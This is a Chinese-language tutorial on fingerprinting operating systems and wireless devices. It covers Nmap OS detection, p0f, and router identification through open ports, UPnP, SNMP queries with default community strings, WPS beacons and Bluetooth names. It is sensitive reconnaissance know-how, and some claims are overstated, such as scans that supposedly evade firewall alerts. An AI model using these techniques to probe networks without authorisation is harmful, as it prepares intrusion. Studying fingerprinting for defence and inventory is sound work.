对于采用主动式指纹识别技术的典型代表 Nmap 来说，其最著名的功能之一是用 TCP/IP 协议栈 fingerprinting 进行远程操作系统探测。这个功能模块我们可以在很多扫描工具都能看到其身影，比如 X-Scan、Nessus、SSS 等。Nmap 发送一系列 TCP 和 UDP 报文到远程主机，检查响应中的每一个比特。在进行一打测试如 TCP ISN 采样、TCP 选项支持和排序、IPID 采样、及初始窗口大小检查之后，Nmap 把结果和数据库 nmap-os-fingerprints 中超过 1500 个已知的操作系统 fingerprints 进行比较，如果有匹配，就打印出操作系统的详细信息。每个 fingerprint 包括一个自由格式的关于 OS 的描述文本和一个分类信息，它提供供应商名称、操作系统 OS 版本和设备类型等。

如果 Nmap 不能猜出操作系统，但获取到了一些目标信息（如至少发现了一个开放端口和一个关闭端口），此时 Nmap 会提供一个 URL。如果用户确知运行的操作系统，则可以把 fingerprint 提交到那个 URL。这样用户就协助扩大了 Nmap 的操作系统知识库，从而让每个 Nmap 用户都能受益。

操作系统检测可以进行其他一些测试，这些测试可以利用处理过程中收集到的信息。例如运行时间检测，使用 TCP 时间戳选项（RFC 1323）来估计主机上次重启的时间，这仅适用于提供这类信息的主机。另一种是 TCP 序列号预测分类，用于测试针对远程主机建立一个伪造的 TCP 连接的可能难度。这对于利用基于源 IP 地址的可信关系（rlogin、防火墙过滤等）或者隐含源地址的攻击非常重要。这一类欺骗攻击现在很少见，但一些主机仍然存在这方面的漏洞。实际的难度值基于统计采样，因此可能会有一些波动。通常采用英国的分类较好，如“worthy challenge”或者“trivial joke”。在详细模式（-v）下只以普通的方式输出，如果同时使用 -O，还报告 IP ID 序列产生号。很多主机的序列号是“增加”类别，即在每个发送包的 IP 头中增加 ID 域值，这对一些先进的信息收集和欺骗攻击来说算是个漏洞。

Nmap 中可以使用如表1所示的选项参数启用和控制 OS 操作系统检测。

## 表1

| 参数 | 描述 | 备注 |
|---|---|---|
| `-O` | 启用操作系统检测 | 注意大小写 |
| `--osscan-limit` | 针对特定的目标进行操作系统检测 | 细节化的参数 |
| `--osscan-guess` / `--fuzzy` | 推测操作系统检测结果 | 一般不使用 |

- `-O`：也可以使用 `-A` 来同时启用操作系统检测和版本检测。
- `--osscan-limit`：如果发现一个打开和关闭的 TCP 端口时，操作系统检测会更有效。采用这个选项，Nmap 只对满足这个条件的主机进行操作系统检测。这样可以节约时间，特别在使用 `-PO` 扫描多个主机时，这个选项仅在使用 `-O` 或 `-A` 进行操作系统检测时起作用。
- `--osscan-guess`、`--fuzzy`：当 Nmap 无法确定所检测的操作系统时，会尽可能地提供最相近的匹配。Nmap 默认进行这种匹配。

任选一个选项使得 Nmap 的推测更加有效。上面是 Nmap 的具体命令参数，而在 Nmap 的安装目录下，我们可以看到一个名为 `nmap-os-db` 的文件，其中定义了已经过测试的操作系统或者设备指纹库，其格式示例如下：

```text
## 2wire 2701HG router
Fingerprint 2Wire 2701HG wireless ADSL modem
Class 2Wire | embedded || WAP
SEQ(SP=6D-C3%GCD=1-6%ISR=96-A0%TI=I%CI=I%TS=E)
OPS(O1=M5B4NNSWONNNT11%O2=M578NNSWONNNT11%O3=M280WONNNT11%O4=M218NNSWONNNT11%O5=M218NNSWONNNT11%O6=M109NNSNNT11)
WIN(W1=8000%W2=8000%W3=8000%W4=8000%W5=8000%W6=8000)
ECN(R=Y%DF=Y%T=FA-104%TG=FF%W=8000%O=M5B4NNSWONN%CC=N%Q=)
T1(R=Y%DF=Y%T=FA-104%TG=FF%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=A%A=Z%F=R%O=%RD=E44A4E43%Q=)
T5(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=Z%A=S+%F=AR%O=%RD=BD1AB510%Q=)
T6(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=A%A=Z%F=R%O=%RD=EA6C967D%Q=)
T7(R=N)
U1(DF=Y%T=FA-104%TG=FF%IPL=70%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=N)
```

由于涉及技术点太多，下面挑出其中几个对应的测试技术点放到表2中供大家查看。关于更多细节化的内容，可以参考 `http://nmap.org/book/osdetect.html`，该文档使用多种语言描述了版本检测的方式、使用和定制。

## 表2

| 测试点 | 描述 | 具体技术 |
|---|---|---|
| ECN | 测试 TCP 栈所支持的 Explicit Congestion Notification | 详见 RFC 3168 文档介绍 |
| T2~T7 | 构造 TCP 探测报文 | 通过插入 SYN、FIN、URG、PSH 等不同类型标志位和不同数据包来实现探测 |
| IE | 针对 IE 位的探测 | 通过向目标地址发送 2 个不同设置的 ICMP ECHO 请求报文，查看其应答来判断 |

### 2. 被动式指纹识别

作为被动式指纹识别的典型代表有 p0f、Xprobe 2、SinFP 等，其中，p0f 是一个出色的网络操作系统被动识别软件。与主动式探测软件不同，它不向目标系统发送任何数据，只是被动地接收来自目标系统的数据进行分析，所以一般来讲无法被发现。它的识别数据库比较齐全，但已经很久没有完整更新，所以对于较老的操作系统识别准确性是比较高的，不过一旦对比较新的操作系统，比如 Ubuntu 10.4、MacOS 10.4 等这样较新版本的系统是没有办法识别的。

下面是一个典型的使用 p0f v2 进行被动式监听截获的数据报文，可以清晰地看到识别为 Windows XP/2000 的提示，但同时我们也能发现 p0f v2 不能够告知我们详细的系统补丁版本，比如到底是 Windows XP SP2 还是 SP3？


##### 无线网络与有线网络的异同

通常情况下，现在很多朋友提及的无线网络指的仅仅是 WLAN 即无线局域网，稍微广泛一点的，还会包含蓝牙、红外、RFID 等短距离无线技术。至于范围更广的 3G、CDMA 及 GSM 等技术呢……很遗憾，这不属于本文讨论的范围。

OK，在过去的数年中，无线网络的迅猛发展为局域网组网布线提供了更多的依据和解决方案。与此同时，无线黑客们开始将有线网络中早已成熟的指纹探测技术运用到了无线网络的扫描及攻击中，甚至一度有很多人认为无线网络设备的识别依靠 Nmap 的 OS 指纹识别功能就可以。呵呵，Nmap 依赖于一个前提，即需要先连接到目标无线路由器所提供的同一个网络中或者路由可达的网段。估计有人都没意识到这个前提的麻烦程度——这很可能是需要破解 WPA-PSK/WPA2-PSK 密码的！尤其是采用了 12 位以上高复杂度密码的，对于小黑们来说难度可不是一点点！不过相信很多正在玩无线 Hacking 的朋友们可能会想到利用 BSSID 查询无线设备的思路。

的确，单纯地依靠 Airodump-ng、Kismet 等无线探测工具来获得无线设备 BSSID（即 MAC 地址）来识别网络设备也可以算是一种检测方法，但是这样的方法并不能够列举出详细的无线设备厂商、具体型号、版本等，这样的所谓无线网络设备识别是“不完整”的。遗憾的是，很多朋友似乎都忘记了一点，至少我在国内各大无线论坛都没有看到其他人在注意这个问题。

我想，有必要强调一下，无线有其自身的特殊性，就是所有数据都是在空气中传播的，看不到摸不着，但电波始终在传递着，这就是突破的角度。下面，就让我们分别从有线网络和无线网络两个技术角度来了解一下对无线网络设备的指纹识别。

##### 基于有线网络技术的指纹识别

对于接入有线网络的无线路由器来说，管理员、安全人员及黑客们都会使用多种传统的方法来发现和识别。具体判断依据主要有端口、SNMP、UPNP 等方式。

### 1. 通过开启的端口判断

由于基本上大多数无线接入点/路由器都是支持 Web 进行配置，所以其 80 端口都是开放的，那么通过使用端口扫描器扫描内网所有主机的 80 端口，查找所有开放 80 端口的主机，排除掉正常提供 Web 服务（如 IIS、Apache 等）的主机，其余的就是可疑的无线路由器或无线接入点了。当然，这里面也有传统的路由器等有线网络设备，所以就需要进一步地确认。该方法适用于目前市面上主流的 TP-LINK、D-Link 及 Linksys 等多款无线路由器。

一般来说，通过简单的主机 Alive 扫描，即存活主机扫描，无线黑客们会先对全网段扫描。这个功能极其重要，判断一下当前网络中有哪些主机在线，是一个良好的习惯。由于 Nmap 发送的 ICMP 报文与 Ping 命令极为相似，所以下面的命令式可以探测到防火墙后面的主机，尤其是那些没有禁止 ICMP 协议的软件防火墙，下述方法成功率高达 95% 以上且不会引起防火墙报警。具体命令如下：

```bash
nmap -sP IP段（示例命令）
```

参数解释：

- `-sP`，这就是常说的 Ping 扫描了，很简单，高手可以飘过了。

回车后，可以看到如图1所示内容。


然后在扫描的结果基础上，对开启 80 端口的设备进行具体版本识别，此版本识别依赖于 Nmap 自带的操作系统/网络设备指纹库。

```bash
nmap -vv -sV IP -p port
```

- 参数解释：
- `-vv`：显示详细的扫描过程；
- `-sV`：Nmap 下的版本探测参数；
- `-p`：后跟具体的端口。

扫描结果如图2所示，黑框内标出了探测到的端口信息，可以看到该地址为一台无线路由器所有，该无线路由器型号为 D-LINK DWL-900AP+，版本号为 2.56。通过在网关上设定规则可以屏蔽该无线路由器上外网，此时即可配合无线搜寻设备来定位该无线路由器。


对于一些设计不严谨的无线接入点，甚至可以直接在浏览器中输入怀疑的地址，在弹出的登录界面上，也能够查看到对方的版本提示。

如图3所示，在登录框上面显示为 Linksys WRT54GP2A-AT 无线路由器。


需要注意的是，通过端口扫描判断无线路由器或者接入点时，一般不仅仅依赖于对 80 端口的判断，一些无线网络设备除了 80 端口之外，也会开启一些很少见的端口，这些也将是我们判断无线设备的依据。这里在表3中给出部分实例以供大家参考。

| 无线路由器品牌 | 默认开放端口 | 特殊开放端口（个别） | 市面主流产品 |
|---|---:|---|---|
| Belkin（贝尔金） | 80 | 53 | F5D7230 |
| Linksys（思科） | 80 | 2869 | WRT54G |
| D-Link | 80 | 52869, 515 | DI-524, DI-624 |

当然，也并不是所有的无线设备默认下都支持从外部网络访问到其配置页面，这点尤其要注意。所以就需要更多的方法来确认，比如方法2——特定 ARP 报文探测。

### 2. UPNP 探测

在默认情况下，绝大多数的无线网络设备都支持 UPNP 设置并且在默认情况下都已开启这项。通过前期的扫描先行确认疑似无线网络设备的 IP，如图4所示，使用 Nmap 检测到 10.0.0.1 为 D-Link 产品。


然后使用简单的 UPNP 工具搜索当前内部网络，如图5所示，通过使用 UPNP 扫描工具，即可看到出现目标无线设备的厂商名称、具体型号及型号的提示，即获得无线网络产品为日本 BUFFALO 无线路由器，具体型号为 WHR-HP-G54，其设备版本号为 1.40，甚至在下方我们都获取到了该产品的详细 UDN 编号。


图5

### 3. SNMP 探测

大多数有线网络中总有一些设备运行着 SNMP 服务，无线网络也是一样，在连接至有线网络的无线网络设备中也总会有一些产品默认支持 SNMP 服务。其实很多时候这些 SNMP 服务是不必要的，但却没有引起网络管理员的重视。更令人觉得遗憾的是，很多设备的 SNMP 字符串设置保持了产品出厂时默认的设置并没有在使用后更改，这样更是增加了可能面临的安全危险。

无论是对于安全人员还是黑客们而言，有很多工具都能够协助人们查找及识别开启 SNMP 的无线网络设备。如图6所示，使用 SOLARWINDS 中的 MIB Walk 工具，利用默认字符串对疑似无线网络设备进行查询，可以看到找到一台名为 Linksys 的无线路由器，其默认开启了 SNMP 服务。


图6

好了，上面就是一些典型的通过传统有线网络技术来进行无线设备指纹识别的方法和思路，下面看看基于无线网络技术的指纹识别。

##### 基于无线网络技术的指纹识别

### 1. 通过分析无线报文实现

和有线网络中常提到的操作系统指纹判断一样，对于无线网络设备，同样存在着诸多可用于判断其产品类型的方式。比如该无线网络设备在进行广播时，会发送一些特定的数据报文，在这些数据报文中存在一些 Banner，可以帮助安全人员或者黑客们判断出该产品的具体型号。

最出名的工具有 wifinger.py，这款基于 Python 开发的工作在 Linux 环境下的工具，采用了被动式探测方法。所谓被动式探测就是指处于 Monitor 监听模式的无线网卡，在不发送任何数据包的前提下，对无线网络中的全部流量进行过滤和分析，并自动将其中区分出来的无线设备列举出来。当然，区分的主要依据是一个名为 digits.dat 的指纹库文件，这个文件和 Nmap 中的指纹库文件一样，都需要定期更新。

在这个名为 digits.dat 的指纹库文件中，我们可以看到，其中的内容均是以某些款型无线路由器在广播或者与无线客户端之间传递数据时所具有的特征性代码来存储的，比如产品型号、默认 WPS 版本、广播。只要在监听无线网络的过程中，探测到出现符合其中任意一个特征码的数据报文时，就会出现一个疑似该型号无线路由器的百分比描述。而若是出现多个符合的特征码时，则会加强和指纹库文件中定义的无线路由器型号的吻合度，换句话说，就会出现一个较高的百分比描述。

如图7中黑框处所示，在经过简短的监听后，wifinger.py 分析出当前无线网络中存在一台 Belkin 品牌的无线设备，其具体型号很可能为 Belkin G+ MIMO F5D9230-4。


图7

类似地，如图8中黑框处所示，判断出当前无线网络中存在一台 D-Link，型号为 DIR-624 的无线路由器，以及一台疑似 D-Link DIR-628 的无线路由器。


图8

需要说明的是，由于该指纹库覆盖面依然有限，所以除了较为有名的无线设备品牌及市场占有率较高的型号外，一些影响力较小的品牌或者在北美及欧洲地区市场占有率较小的产品是暂时无法识别的，比如在数月前测试时，仍无法识别日本的 BUFFALO 和韩国的 IPTIME 这两个无线品牌产品，这个有待于指纹库的不断更新和改进。

### 2. 基于 WPS 的判断

WPS 是由 WiFi 联盟所推出的全新 WiFi 安全防护设定（WiFi Protected Setup）标准，该标准推出的主要原因是为了处理长久以来无线网络加密认证设定的步骤过于繁杂艰难之弊病，运用者往往会因为步骤太过麻烦，以致干脆不做任何加密安全设定，因而引发许多安全上的疑问。通过无线路由器上的 WPS 键可以让用户高速、轻轻松松地加密无线网络传输数据，阻止非法用户的入侵，一方面既保证了无线网络的安全，另一方面又让用户配置加密轻轻松松，每个人都可以很容易上手。

那么，通过对开启 WPS 功能的无线设备扫描，也能够协助无线黑客们判断出无线设备的具体类型。如图9所示，使用 wpscan.py 进行被动式扫描，能够获取到开启 WPS 功能的无线设备当前状态。在获取到 WPS 功能状态的同时，也能够获取到一些该无线网络设备的相关信息，比如图9中黑框处所示，在“Model Name”处，就识别出为 Belkin 的型号为 F5D7230-4 的无线路由器，甚至可以显示出具体的型号为 v9。


图9

由于图9所示内容源自 WPS 的广播数据，所以结果尤为可信和准确，不像之前无线设备指纹检测那样存在一定的吻合准确度问题。但是需要注意的是，并不是所有的无线网络设备都具备 WPS 功能。

##### 针对手持设备的指纹识别

本文所说的手持设备包括但不限于智能手机、PDA、UMPC 等，针对手持设备的指纹识别而言，主要有两个思路：一是若该手持设备支持 WiFi，并已经连接到某一个无线网络进行上网操作，比如在咖啡屋等地方，此时就可以使用本文中之前所提及的有线网络指纹识别的方法来判定。

第二个思路是若该手持设备没有开启 WiFi 或者直接就不支持 WiFi 功能，但是当前开启了蓝牙功能，那么也能够通过对蓝牙的扫描来达到获取该设备 MAC、机型等信息，从而达到系统识别的目的。这种情况很常见，很多场合下随便打开蓝牙一搜就会发现不少开启蓝牙功能的设备，主要都是智能手机，其中大部分还是默认开启的。如图10所示为在机场候机大厅搜索到的大量开启蓝牙功能的手持设备。


图10

为方便大家学习，我把蓝牙扫描结果中较为典型的几种显示对应机型归纳如表4所示。其中，XXX指代被省略的具体型号。

| 蓝牙扫描结果 | 对应厂商及机型 | 备注 |
|---|---|---|
| Nokia XXXX | Nokia智能手机，XXX为具体机型 | 此为默认蓝牙名称设置 |
| SGH-XXX | 三星智能手机，XXX为具体机型 | 此为默认蓝牙名称设置 |
| MTKBTDEVICE | 绝大多数为山寨机，但也可能是某些厂商为简化成本采用MTK芯片生产的产品 | 这里MTK指采用台湾联发科的芯片，BT指Bluetooth，DEVICE是设备的意思 |
| iPhone | 苹果推出的iPhone系列智能手机 | 默认情况下无设备型号区别 |
| SCH-XXX | 三星智能手机，XXX为具体机型 | 此为默认蓝牙名称设置 |

表4

当然，通过厂商编码来识别也是一个很有效的办法，但这就需要建立大型的库来实现。

##### 特殊无线网络设备识别

除了现在市面上销售的无线网络设备之外，还存在一些经过处理的无线设备。所谓处理有很多种方法和可能，比如刷新过Firmware（即更新为第三方固件）的无线路由器、定制型企业无线网络设备、硬件修正设备等。限于本文篇幅就不一一列举。下面我们来看看刷新无线路由器Firmware的第三方固件。

目前，比较有名的第三方固件有DD-WRT、Open-WRT、FreeWRT、Tomato等。其中，最为有名的DD-WRT是一个基于Linux的无线路由固件，基于GPLv2发布。

DD-WRT提供了许多一般路由器固件所没有的功能，例如支持XLink Kai游戏协议、基于守护进程的服务、IPv6、无线分布式系统、无线网桥和无线中继、RADIUS、先进服务质量控制、无线输出功率控制、超频能力，以及SD卡的硬件配置提供软件支持。如此强化的功能确实对用户有很大的吸引力，这也是为什么一些无线爱好者或者发烧友会将自己的无线路由器刷新的主要原因。如图11和图12所示，分别为刷过DD-WRT和Tomato的无线路由器Web配置界面。


图11


图12

那么，这些刷新过固件的无线路由器虽然MAC地址没有改变，但是在设备系统上却更换为了简化版的Linux OS。这也就使得在内网环境下，通过常见的操作系统指纹扫描，可以通过开放的端口及服务来判断出内置Web版本和Linux内核版本。也可以如同本文前面小节提及的SNMP、UPnP等技术点来进行OS识别。

而从外部无线网络角度分析来说，若默认的类似“ddwrt”这样的SSID没有修改的话，我们还可以通过使用Kismet、Airodump-ng等简单地判断及识别出该设备为刷新过对应固件的设备，也可以通过前面提及的无线报文分析或者WPS等方式进行深度识别。

##### 小结

综上所述，无论是安全人员还是无线黑客们，如果想要在现有的内网中查找无线网络设备，或者直接从外部查找无线网络设备，都是有很多种方法及设备来实现。但关于无线设备探测的工具和方法远不止本文提及的几种，感兴趣的读者可以自行深入研究。本文仅作为抛砖引玉。